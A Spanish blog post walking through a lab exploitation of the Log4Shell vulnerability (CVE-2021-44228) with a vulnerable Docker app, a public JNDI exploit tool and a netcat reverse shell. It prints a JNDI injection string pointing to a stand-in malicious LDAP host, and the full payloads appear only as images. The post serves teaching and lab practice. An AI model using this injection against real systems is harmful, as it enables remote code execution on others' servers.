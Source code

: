 ```yaml
---
layout: post
author: Raúl Riesco
title: Explotar vulnerabilidad de Log4j (CVE-2021-44228)
---
```


## Explicación teórica

En esta ocasión vamos a realizar una práctica de laboratorio sencilla donde explotaremos la en su día ya famosa vulnerabilidad `Log4shell`. Esta vulnerabilidad es del tipo RCE (Ejecución Remota de código), con una gran criticidad y fue en su momento un 0day en el popular paquete de logging `log4j`.

Algunos detalles más técnicos de la vulnerabilidad pueden leerse [aquí](https://www.lunasec.io/docs/blog/log4j-zero-day/)

A partir de esta vulnerabilidad y su correspondiente parche, se fueron desencadenado nuevas vulnerabilidades. La [siguiente](https://blog.aquasec.com/log4j-vulnerabilities-overview) imagen muestra la línea de acontecimientos:

![](../img/log4j/key-log4j-events-timeline.jpg)

## ¿Cuál es el problema que genera la vulnerabilidad?

El meollo de esta vulnerabilidad está contado bastante bien [aquí](https://www.akamai.com/es/blog/security/a-log4j-retrospective) y [aquí](https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4).

A muy grandes rasgos, log4j permite registrar expresiones en los logs que contengan variables, de tal forma que al loggearse la información, log4j interpreta la expresión y sustituye las variables adecuadamente:

```
"${date:MM-dd-yyyy} Access granted" 
```

Además, log4j permite anidar expresiones de búsquedas unas dentro de otras.

### JNDI (Java Naming and Directory Interface)

Esta funcionalidad de log4j permite a una aplicación obtener datos de un servidor remoto utilizando protocolos tales como LDAP o RMI.

Todo esta teoría junta, puede usarse para explotar la vulnerabilidad de la siguiente forma:

![](../img/log4j/00.jpg)

Es decir, muy resumidas, ocurren las siguiente cosas:

1. Un atacante realiza una petición a la aplicación vulnerable y "cuela" una cadena JNDI para ser loggeada por log4j (en una cabecera HTTP por ejemplo)
    Esta cadena contiene una petición de búsqueda a un servidor LDAP malicioso.

2. Esta petición o cadena es, efectivamente, loggeada por log4j, que la interpreta y contacta con el servidor LDAP malicioso

3. El servidor LDAP malicioso responde con una clase Java maliciosa

4. El servidor víctima deserializa o descarga la clase Java malicoso y la ejecuta

## Comprobación práctica

Para este escenario me he basado es una explicación genial de un buen [blog](https://ciberseguridad.blog/como-explotar-la-vulnerabilidad-log4shell-en-nuestro-laboratorio/ ¡) en español y me parece importante darle su crédito.

Vamos a utilizar dos máquinas virtuales:

+ En la primera ejecutaremos una aplicación vulnerable a `log4shell`. Se tratará de [este](https://github.com/christophetd/log4shell-vulnerable-app) contenedor Docker. Utilizaré un Lubuntu que tenía a mano.

+ En la segunda ejecutaremos un [exploit](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) diseñado para esta vulnerabilidad, que levantará un servidor LDAP (para recibir la petición de la víctima) y otro HTTP (para servir el exploit).

    También pondremos un netcat a escuchar, ya que el exploit establecerá una shell reversa.

    Y desde este servidor será desde realizaremos la petición maliciosa a la víctima, mediante `curl`, construida adecuadamente para explotar la vulnerabilidad descrita.

    Utilizaré una Debian que también tenía a mano.

En esencia, la cosa quedaría así:

![](../img/log4j/diagrama.png)

Así pues, vayamos al lío. Ejecutamos la aplicación vulnerable en el Lubuntu:

![](../img/log4j/1.png)

Ejecutamos el exploit en la Debian. Comprobamos como se inician el servidor LDAP (puerto 1389) y el HTTP (el 8888 le hemos indicado):

![](../img/log4j/2.png)

Y ponemos en esta misma máquina netcat a la escucha para recibir la reverse shell:

![](../img/log4j/3.png)

La petición CURL que vamos a realizar, será del tipo `${jndi:ldap://www.malicious.com/payload}`, donde `www.malicious.com` es el servidor LDAP malicioso y `payload` será la orden a ejecutar para conseguir la reverse shell, codificada en base64.

El `payload`:

![](../img/log4j/4.png)

La petición CURL completa:

![](../img/log4j/5.png)

El servidor con la aplicación vulnerable recibiendo la petición:

![](../img/log4j/6.png)

![](../img/log4j/7.png)

Nuestros servidores maliciosos en la máquina DEbian recibiendo sus respectivas peticiones LDAP y HTTP sirviendo la clase Java maliciosa:

![](../img/log4j/8.png)

Y tras este intercambio de peticiones y respuestas, obtenemos nuestra shell inversa:

![](../img/log4j/9.png)

